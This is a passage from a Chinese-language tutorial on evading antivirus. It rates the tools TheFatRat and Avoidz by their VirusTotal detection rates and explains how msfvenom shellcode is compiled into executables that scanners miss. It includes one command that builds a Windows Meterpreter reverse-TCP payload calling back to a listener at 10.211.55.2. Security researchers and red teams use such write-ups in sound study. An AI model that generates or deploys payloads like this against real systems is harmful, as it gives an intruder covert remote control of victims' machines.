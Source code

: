 TheFatRat的很多免杀方式是借助于msfvenom编码、upx等加壳压缩、c/c#编译等将powershell混淆后编译成exe或bat文件，但有些在执行时还是会调用powershell，而powershell的调用已经被各大杀软盯的很紧了，所以查杀效果只能算是一般了。

## 3.7 Avoidz免杀(VT免杀率23/71)

操作便利★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/TnfTXihlyv696uCiv3aWfg](https://mp.weixin.qq.com/s/TnfTXihlyv696uCiv3aWfg)

avoidz是一个比较使用比较简单的小工具，利用msf生成powershell的shellocde，然后利用c#、python、go、ruby等语言对shellcode进行编译生成exe而达到免杀的效果，套路比较简单，静态检测查杀率还算可以，但行为检测就很容易被查杀出来，和TheFatRat具有相同的缺陷。倒是可以借鉴下他的原理，自己写个免杀工具。

- 使用avoidz编译C#生成exe(VT免杀率23/68)

提供3种C代码编译成exe的方式，想了解详情的可以`cat avoidz.rb`查看具体区别。

我以第一种为例进行测试

```
./avoidz.rb -h 10.211.55.2 -p 3333 -m windows/meterpreter/reverse_tcp -f c1
```

![c9801136dc16891132e750496b2abf85](images/2020.03-bypass-02/18.png)
